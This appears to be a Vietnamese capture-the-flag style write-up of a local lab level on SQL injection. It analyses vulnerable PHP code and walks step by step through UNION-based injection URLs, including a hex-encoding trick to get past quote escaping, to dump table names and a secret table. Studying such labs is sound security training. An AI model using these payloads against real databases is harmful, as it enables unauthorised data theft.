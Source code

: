 # SQL Injection 6
# Mục tiêu: Tìm secret trong database
# Phân tích
```
if (isset($_GET["id"])) {
    try {
        include("db.php");
        $database = make_connection("posts_db");

        $id = $database->real_escape_string($_GET["id"]);
        $sql = "SELECT content FROM posts WHERE id=$id";
        // var_dump($sql); // Debugging: Show the SQL query
        $query = $database->query($sql);
        $row = $query->fetch_assoc(); // Get the first row

        if ($row !== NULL)
            $message = "<iframe height='800px' width='100%' src='" . $row["content"] . "'></iframe>";
        else
            $message = "ID not found"; // No result
    } catch (mysqli_sql_exception $e) {
        $message = $e->getMessage();
    }
}
```
- ở dòng 5 là untrusted data vì có thể nhập một 1 vào.
- ở dòng 11 đã sử dụng luôn id đó.
- Ở đây nó lấy 1 dòng. Có cách nào gộp?
# Khai thác.
```
http://localhost:24001/basic/level6.php?id=4
```
Khi nhập `id`= 4 thì thấy báo `ID not found`.  
Mở `Burp Suite` nên xem có gì không.  
Vì sql chỉ lấy 1 dòng --> thử lấy `version()`.  
```
http://localhost:24001/basic/level6.php?id=4%20UNION%20SELECT%20version()
```
<img src='./img/Screenshot 2025-08-03 at 21.18.49.png'>.  
Phát hiện được `version` src='`8.0.43`'  

Tìm cách lấy các `table` trong `database()`.  
```
http://localhost:24001/basic/level6.php?id=4%20UNION%20SELECT%20table_name%20FROM%20information_schema.tables%20WHERE%20table_schema=database()
```
<img src='./img/Screenshot 2025-08-03 at 21.26.07.png'>.  
Vì là 1 dòng nên sử dụng thêm `GROUP_CONCAT(table_name)` để xem có lấy được thêm `table` nào không.  
<img src='./img/Screenshot 2025-08-03 at 21.28.38.png'>  
Phát hiện thêm table `secret6`.  
Tìm cách lấy các `column_name` trong bảng `secret6`.  
```
http://localhost:24001/basic/level6.php?id=4%20UNION%20SELECT%20GROUP_CONCAT(column_name)%20FROM%20information_schema.columns%20WHERE%20table_name%20=%20%27secret6%27
```
Lỗi đang bị `escape`
```
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '\'secret6\'' at line 1
```
Mà bỏ `'` thì bị coi là 1 `column`
```
http://localhost:24001/basic/level6.php?id=4%20UNION%20SELECT%20GROUP_CONCAT(column_name)%20FROM%20information_schema.columns%20WHERE%20table_name%20=%20secret6

Unknown column 'secret6' in 'where clause'
```
Vậy dùng `hex` thì sao.  
```
http://localhost:24001/basic/level6.php?id=4%20UNION%20SELECT%20GROUP_CONCAT(column_name)%20FROM%20information_schema.columns%20WHERE%20table_name%20=%200x73656372657436
```
<img src='./img/Screenshot 2025-08-03 at 21.40.59.png'>.  
Biết được trong table `secret6` có 2 column `id,content`. Thử đọc `content` xem có gì.  
```
http://localhost:24001/basic/level6.php?id=4%20UNION%20SELECT%20content%20FROM%20secret6
```
<img src='./img/Screenshot 2025-08-03 at 21.45.25.png'>

Tìm được `flag` thành công.

# Lưu ý
🔁 Cách đổi chuỗi bất kỳ thành HEX:
Bạn có thể dùng lệnh trong terminal hoặc code PHP/Python:
```
echo -n 'posts' | xxd -p
```
Kết quả: `706f737473`

✅ Tại sao phải thêm `0x` trong `0x706f737473`?  
Vì trong MySQL, tiền tố 0x được dùng để biểu diễn một chuỗi nhị phân ở dạng hexadecimal (hex). Khi bạn viết:
```
0x706f737473
```
🔣 2. Dạng CHAR()
Bạn có thể dùng hàm CHAR() để chuyển từng ký tự ASCII:
```
'posts' == CHAR(112,111,115,116,115)
```
▶ Ví dụ:
```
SELECT COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS 
WHERE TABLE_NAME=CHAR(112,111,115,116,115)
```

✅ Tổng kết:
- `0x` là cách MySQL hiểu chuỗi hex.

- `0x706f737473` = `'posts'`
